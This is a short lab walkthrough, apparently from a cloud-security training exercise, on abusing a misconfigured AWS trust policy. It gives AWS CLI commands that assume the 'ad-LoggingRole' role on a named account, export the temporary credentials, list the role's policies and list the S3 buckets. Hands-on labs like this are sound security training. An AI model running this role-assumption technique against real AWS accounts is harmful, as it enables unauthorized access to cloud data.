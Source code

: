 # Misconfigured trust policy

Misconfigured trust policy can be leveraged to assume a role and perform privileged operations. 

Objective: Assume the role "ad-LoggingRole" on the AWS account "276384657722" and list the S3 buckets.

----

1. Get access to AWS lab credentials.
2. Configure AWS CLI.
3. Assume `ad-LoggingRole` role:

```text
aws sts assume-role --role-arn arn:aws:iam::276384657722:role/ad-LoggingRole --role-session-name ad_logging
```

4. Set access ` AWS_ACCESS_KEY_ID`, ` AWS_SECRET_ACCESS_KEY`, and `AWS_SESSION_TOKEN` in environment variables:
5. Check with:

```text
aws sts get-caller-identity
```

6. Get attached policies for `ad-LoggingRole`:

```text
aws iam list-attached-role-policies --role-name ad-LoggingRole
```

***The role has read access on the S3 and IAM service of the account.***

7. List s3 buckets:

```text
┌──(kali㉿kali)-[~]
└─$ aws s3 ls
2021-01-20 03:28:42 ad-secret-bucket-for-role
2021-03-14 14:10:17 attackdefense
...
```
